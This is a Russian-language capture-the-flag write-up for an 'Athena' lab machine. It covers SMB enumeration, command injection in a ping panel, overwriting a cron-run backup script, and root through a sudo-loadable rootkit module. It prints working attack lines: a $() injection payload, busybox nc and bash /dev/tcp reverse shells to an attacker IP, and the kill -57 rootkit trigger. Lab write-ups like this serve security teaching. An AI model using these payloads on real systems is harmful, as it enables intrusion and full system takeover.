








# Write-up: Athena

## Enumeration

Сканируем цель:

```bash
sudo nmap -sS -sV -sC -p- --min-rate=1000 10.144.180.192
```

```text
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
|_nbstat: NetBIOS name: ROUTERPANEL
```

Сразу видно SMB — пробуем перечислить шары.

## Port 80

На сайте — страница о богине Афине:


Параллельно запускаем `enum4linux`:

```bash
enum4linux -a 10.144.180.192
```

Находим шару `public`:



Подключаемся:

```bash
smbclient //10.144.180.192/public -N
```

Скачиваем `msg_for_administrator`:



```text
Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left
the corresponding application in a specific path, which can be accessed through
the following address: /myrouterpanel

Yours sincerely,
Athena
Intern
```

## Ping system

Переходим на `/myrouterpanel`:



Здесь есть Ping tool. Вводим IP и получаем результат:



Замечаем фильтры: если поставить точку с запятой — выведется `Attempt hacking!`. Значит, какие-то символы режутся.

## Command Injection

Пробуем инъекцию через подстановку `$()`:

```text
127.0.0.1 $(sleep 5)
```

Это сработало — команда выполнилась с задержкой:



Обычные команды вроде `ls`, `id`, `whoami` использовать нельзя — фильтры. Но можно запустить reverse shell через `busybox`:

```text
busybox nc 192.168.192.3 4444 -e sh
```

Получаем шелл:



## Поиск backup-скрипта

Ищем по системе всё, что связано с backup:

```bash
find / -name "*backup*" 2>/dev/null
```

Среди результатов выделяется:

```text
/usr/share/backup/backup.sh
```

Смотрим скрипт:

```bash
cat /usr/share/backup/backup.sh
```

```bash
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
```

Скрипт рекурсивно копирует всё из `/home/athena/notes/` в `~/backup` и, судя по всему, запускается по таймеру (cron/systemd). Значит, если мы можем **перезаписать этот скрипт**, то при следующем запуске от имени `athena` (или root — зависит от таймера) выполнится наш код.

Перезаписываем `backup.sh`:

```bash
echo 'bash -i >& /dev/tcp/192.168.192.3/4445 0>&1' > /usr/share/backup/backup.sh
```

Ждём срабатывания таймера и получаем шелл. Забираем `user.txt`:



## PrivEsc через kernel module

Проверяем `sudo`:

```bash
sudo -l
```

```text
User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```

То есть `athena` может **загружать в ядро** модуль `venom.ko` от root без пароля.

Смысл в том, что `venom.ko` — это не обычный полезный модуль, а «заготовка» руткита. При загрузке он регистрирует в ядре обработчик, который вызывает функцию `give_root()`, но **не сразу**, а по определённому триггеру. Триггер — это сигнал, отправленный процессу с определённым PID.

В таких модулях часто используется механика:

- модуль при инициализации «вешается» на отправку сигнала;
- когда процессу отправляют конкретный сигнал (в нашем случае — `SIGRTMIN+7`, он же `-57`), срабатывает `give_root()`;
- `give_root()` повышает привилегии текущего процесса до root.

Поэтому нужно:

1. загрузить модуль (это разрешено через `sudo`):

   ```bash
   sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
   ```

2. отправить себе (или нужному процессу) сигнал `-57`, чтобы модуль вызвал `give_root()`:

   ```bash
   kill -57 $$
   ```

   Здесь `$$` — PID текущей оболочки. Сигнал `-57` соответствует `SIGRTMIN+7`, который и слушает `venom.ko`.

После этого оболочка получает root-права:



## Итоговая схема (Kill Chain)

`SMB public (msg_for_administrator)` → `/myrouterpanel (ping)` → `command injection ($(sleep 5))` → `busybox nc → reverse shell` → `/usr/share/backup/backup.sh (перезапись)` → `шелл athena → user.txt` → `sudo insmod venom.ko` → `kill -57 $$ → root`